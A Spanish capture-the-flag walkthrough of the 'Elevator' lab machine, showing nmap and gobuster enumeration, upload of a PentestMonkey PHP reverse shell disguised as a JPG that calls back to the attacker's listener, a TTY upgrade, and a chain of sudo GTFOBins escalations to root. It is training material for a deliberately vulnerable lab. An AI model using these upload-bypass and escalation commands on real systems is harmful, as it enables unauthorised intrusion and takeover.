 # Elevator

**Nivel:** Fácil

**Autor:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Escaneo 

Relizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

Evidenciamos un sitio web accedemos a este para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

Después de revisar el código de la página web e interactuar con esta, encontramos información relevante que podrian ser nombres de usuarios: **daphne**, **velma**, **scooby**, **shaggy**

------------------
## Enumeración 

Realizamos **fuzzing** utilizando **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

Identificamos los directorios **javascript** y **themes**. Al revisarlos, obtenemos respuestas de acceso no autorizado de parte del servidor y realizamos un **fuzzing** adicional:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

Encontramos los ficheros **archivo.html** y **upload.php** y el directorio **uploads**.

--------------
## Explotación

Al revisar la página **archivo.html**, observamos que el formulario permite la carga de ficheros **jpg**:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

Ahora intentamos subir una shell reversa en PHP, almacenada como **jpg**

Configuramos la shell [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) y lo guardamos como la extensión **jpg**. 

Nótese que hemos establecido **172.17.0.1** como la **IP** y **4444** como el **PORT** de escucha para el listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

Iniciamos el **listener** para la shell reversa con **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Ahora ejecutamos la **shell reversa** a partir del enlace obtenido desde el fichero **upload.php** al subir el **jpg** desde el formulario de **archivo.html** y obtenemos acceso inicial:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### Tratamiento de TTY

Configuramos el **TTY** para una operación cómoda en la consola:

```shell
script /dev/null -c bash 
```
Presionamos **Ctrl  +  Z**, y luego ejecutamos:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

En los comandos anteriores es necesario ajustar los valores **rows** y **columns**  con los valores obtenidos al ejecutar en una consola de la máquina atacante el comando:

```shell
stty size
```

Ahora podemos utilizar **Ctrl+L** y **Ctrl+C**.

------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

Observamos que podemos ejecutar **env** como el usuario **daphne** revisamos la documentación de [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repetimos el proceso con **sudo -l** hasta lograr escalar como **root**:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finalmente hemos podido obtener acceso como usuario **root**:

```shell
whoami
----------------
root
```
